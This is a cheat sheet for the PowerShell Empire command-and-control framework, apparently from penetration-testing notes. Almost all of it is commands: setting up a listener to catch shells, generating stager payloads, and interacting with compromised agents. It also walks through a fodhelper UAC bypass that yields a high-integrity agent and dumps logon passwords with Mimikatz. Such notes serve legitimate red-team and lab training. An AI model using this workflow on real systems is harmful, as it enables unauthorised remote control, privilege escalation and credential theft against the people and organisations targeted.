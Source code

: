 # Empire

* [https://github.com/BC-SECURITY/Empire](https://github.com/BC-SECURITY/Empire)
* [https://zayotic.com/posts/empire-cheatsheet/](https://zayotic.com/posts/empire-cheatsheet/)

## Cheat Sheet

```bash
# install it
sudo apt install powershell-empire

# to run it, you need both the server and client
sudo powershell-empire server
sudo powershell-empire client

# list and use listeners
# you need a listener to catch a shell
# do not forget to set Host, and other custom settings
listeners # this moves the menu to the listeners sub-category
uselistener "listenername" # sets the menu into an even further sub-category
info
set Host 192.168.1.5
execute # runs listener
back # goes to listeners category so you can run a stager (aka payload)

# use a stager once a listener is set
# list and use the stager
usestager # lists stager
usestager path_to/stager
info # shows info about stager
set Listener "listenername" # set as the name of listener that is setup
execute # generates the payload aka agent that stager leaves behind

# to view what shells you have open
agents
interact "agentname"

# use modules for more leverage
# best modules
usemodule situational_awareness/network/powerview/get_user # Powersploit
usemodule powershell/privesc/powerup/allchecks # Powerup
usemodule privesc/bypassuac_fodhelper # fodhelper, if local admin, 
                                # launch high-integrity shell and run Mimikatz
usemodule credentials/mimikatz/logonpasswords # Mimikatz, run 
                                # sekurlsa::logonpasswords
# other modules
usemodule # shows a module list
usemodule "path_to/module"
info
execute

# when in doubt
help # useful command
```

## fodhelper

* if you have local admin access, this module may be able to launch a high-integrity PowerShell Empire agent through bypassing the UAC (which you need to run Mimikatz, etc...)

```
# load the Empire module
usemodule privesc/bypassuac_fodhelper

# display info
info

# setup a listener
set Listener http

# run the module
execute

# if this works, then you now have a high-integrity Powershell Empire agent which
# is needed in order to run Mimikatz and other high-integrity modules
usemodule credentials/mimikatz/logonpasswords
execute
sekurlsa::logonpasswords

# view the creds that were just dumped
creds

# add your own creds to creds
creds add example.com exampleusername ex4mpl3p4ssw0rd
```
